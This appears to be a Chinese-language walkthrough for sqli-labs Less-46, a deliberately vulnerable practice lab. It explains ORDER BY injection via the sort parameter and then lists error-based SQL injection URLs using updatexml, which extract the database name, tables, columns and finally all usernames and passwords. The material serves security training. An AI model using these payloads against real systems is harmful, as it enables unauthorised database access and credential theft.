

# Less - 46

---

# 通关教程

---

## 1、判断注入

---

​​

要我们输入sort，我们输入sort=1试试

​​

​​

这里我们发现sql语句为select * from users order by $id;,在原先的语句上加入了order by语句，那到底order by语句是什么意思呢，前面的关卡我们使用了order by语句，但都是都是为了判断字段数，这里我们来讲讲order by语句的作用

SQL语句中，asc是指定列按升序排列，desc则 是指定列按降序排列。  
select * from users order by 1 desc; 使用降序进行排列  
select * from users order by1 asc;使用升序进行排列

这里我们就明白了，原sql语句只有order by后面的参数是我们可控的，所以sort=1的意思就是以第一列数据也就是ID进行排序

尝试sort=1'

​​

根据错误显示我们判断为数字型注入。这里因为有完整的错误回显，所以我们可以使用报错注入攻击或者使用时间盲注

---

## 2、查看当前库

---

```http
http://192.168.23.128/sqli-labs/Less-46/?sort=1 and updatexml(1,concat(0x7e,(database()),0x7e),1)--+
```

​​

---

## 3、查看security库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-46/?sort=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1)--+
```

​​

---

## 4、查看users表下的所有字段

---

```http
http://192.168.23.128/sqli-labs/Less-46/?sort=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1)--+
```

​​

---

## 5、查看username,password字段下的所有值

---

```http
http://192.168.23.128/sqli-labs/Less-46/?sort=1 and updatexml(1,concat(0x7e,(select group_concat(username,password) from security.users),0x7e),1)--+
```

​​
